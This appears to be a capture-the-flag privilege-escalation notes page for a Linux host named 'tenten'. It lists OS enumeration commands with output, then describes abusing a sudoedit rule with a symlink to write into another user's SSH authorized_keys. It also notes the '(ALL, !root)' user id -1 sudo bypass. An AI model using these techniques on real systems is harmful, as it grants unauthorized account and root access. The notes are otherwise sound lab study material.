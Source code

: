 

# Operating System, kernel version, or service pack info
````
cat /etc/issue
cat /etc/*release
cat /proc/version
ls /boot | grep "vmlinuz"
lsb_release -a
uname -a
````
```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

takis@tenten:~$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

takis@tenten:~$ cat /proc/version
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
takis@tenten:~$ ls /boot | grep "vmlinuz"
vmlinuz-4.4.0-62-generic
takis@tenten:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

takis@tenten:~$ uname -a
Linux tenten 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

# Sudo info
```
sudo -l

Config:
sudoedit_follow, !sudoedit_checkdir : can edit file with symlink in other dir...
(alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html 
We can modify a file. e.g. : add a key in alekos
ln -s /home/alekos/.ssh/authorized_keys layout.html 

```
Cas du sudo -l : (ALL, !root) xxxx
#-1 =  0
````
````